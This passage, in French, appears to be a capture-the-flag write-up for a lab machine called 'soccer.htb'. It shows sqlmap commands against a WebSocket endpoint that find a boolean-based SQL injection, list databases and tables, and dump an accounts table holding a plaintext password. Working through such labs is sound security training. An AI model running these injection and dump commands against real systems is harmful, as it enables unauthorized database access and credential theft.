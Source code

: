 ![](../../AUTRES/Attachments/img_0204_0630_emenf.png)

On utilise ensuite **SQLMap** pour automatiser l'exploitation :

```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"1234"}' --batch 
```
* => Ne trouve rien

On spécifie la technique (Boolean Based), le niveau et le risque :
```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"1234"}' --technique=B --risk 3 --level 5 --batch 
```
* => Trouve la vulnérabilité Boolean based

**Obtenir les databases qui existent sur le serveur :**
```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"1234"}' --technique=B --risk 3 --level 5 --threads 10 --batch --dbs
```

On trouve :
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

**Connaitre les tables de la database `soccer_db` :**
```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"1234"}' --technique=B --risk 3 --level 5 --threads 10 --batch -D soccer_db --tables 
```

On trouve :
```
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

**Extraire les données de la table `accounts` :**
```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"1234"}' --technique=B --risk 3 --level 5 --threads 10 --batch -D soccer_db -T accounts --dump
```

On trouve :
```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```
* **=> Password : `PlayerOftheMatch2022`**
